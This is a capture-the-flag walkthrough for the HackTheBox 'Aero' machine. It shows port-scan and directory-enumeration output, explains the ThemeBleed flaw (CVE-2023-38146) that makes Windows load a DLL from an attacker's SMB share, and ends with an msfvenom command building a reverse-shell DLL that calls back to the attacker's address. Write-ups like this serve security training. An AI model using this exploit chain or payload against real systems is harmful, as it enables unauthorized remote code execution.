 ```yaml
---
title: "Aero"
date: 2024-11-25
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "aero", "writeup", "htb"]
---
```


# Aero

# Aero

## Enumeration 
### Port Scan
# TCP
```sh
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Aero Theme Hub
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# UDP
```sh
PORT      STATE         SERVICE      VERSION
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
```



## Gobuster
```sh
/home
/upload
/.
```


# Screenshots
![[/assets/images/aero1.png]]

http://10.10.11.237/home#upload
![[/assets/images/aero2.png]]

![[/assets/images/aero3.png]]
Allowed upload
- `.theme`
- `.themepack`

# Foothold
CVE-2023-38146
https://github.com/exploits-forsale/themebleed

- The theme tries to load the style file from a SMB share on my host.
- That triggers interaction with a file ending in `_vrf.dll`, first opening it with the `CreateFile` API to read it and verify it's signature, and then opening it with the `LoadLibrary` API. 
- The SMB server uses the differences in how it's opened to return either the legit DLL or the malicious one. 


Reverse shell DLL
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.42 LPORT=445 -f dll > VerifyThemeVersion
```

